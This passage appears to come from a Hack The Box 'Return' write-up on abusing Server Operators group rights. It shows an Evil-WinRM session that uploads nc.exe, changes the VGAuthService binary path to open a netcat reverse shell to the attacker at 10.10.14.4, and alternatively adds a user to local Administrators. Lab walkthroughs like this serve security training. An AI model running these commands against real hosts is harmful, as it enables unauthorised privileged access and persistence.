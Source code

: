 **Server Operators** is a built-in group in Active Directory that grants members specific administrative capabilities over domain controllers. Members can manage services, including starting and stopping most services, perform backup and restore operations, shut down and restart the server, and handle disk management tasks.

Upload nc.exe:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/garffff/htb/return/nc.exe
                                        
Info: Uploading /home/garffff/htb/return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
```

List all services:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\desktop> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Configure the service with the payload. Stop and start the service:

```bash
sc.exe config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.4 443"
sc.exe stop VGAuthService
sc.exe start VGAuthService
```

Instead of a reverse shell, we can  use this:

```bash
sc.exe config VGAuthService binPath= "cmd /c net localgroup Administrators server_adm /add"
```


